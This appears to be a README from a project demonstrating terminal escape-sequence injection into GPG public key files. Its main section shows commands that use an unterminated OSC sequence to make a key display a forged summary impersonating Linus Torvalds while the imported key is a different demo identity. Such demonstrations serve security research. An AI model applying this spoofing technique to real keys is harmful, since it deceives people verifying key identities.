






# Design demonstrations

## Blinkenlights


<br /><br />

## Chip


<br /><br />

## Fake key summary

Inject a custom fake key summary through unescaped Operation System Command (OSC), by not providing a terminator of the sequence at the end.
```console
$ python3 gpg_injector.py --input plain_public_key.asc --script designs/fake_key_summary.py --output result_key.asc --text "pub   rsa2048 2011-09-20 [SC]
      ABAF11C65A2970B130ABE3C479BE3E4300411886
uid           Linus Torvalds <torvalds@kernel.org>
uid           Linus Torvalds <torvalds@linux-foundation.org>
sub   rsa2048 2011-09-20 [E]"
$ cat result_key.asc | gpg -q
pub   rsa2048 2011-09-20 [SC]
      ABAF11C65A2970B130ABE3C479BE3E4300411886
uid           Linus Torvalds <torvalds@kernel.org>
uid           Linus Torvalds <torvalds@linux-foundation.org>
sub   rsa2048 2011-09-20 [E]
$
```

But actual key is still the original one ...
```console
$ cat result_key.asc | gpg -q | grep Demo
uid           Demo User <smp@chaos.social>
$ gpg --import result_key.asc            
gpg: key CAA66F0A6240D4F4: public key "Demo User <smp@chaos.social>" imported
gpg: Total number processed: 1
gpg:               imported: 1
$
```

*Note: this works on GNU/Linux with gnome-terminal, xfce4-terminal, konsole, xterm, ... YMMV with other terminal emulators*

<br /><br />
## Glider CCC


<br /><br />

## Matrix


<br /><br />

## Rainbow love


<br /><br />

## Retro synthwave


<br /><br />

## Rocket


<br /><br />


## Warning (Caution!)


<br /><br />
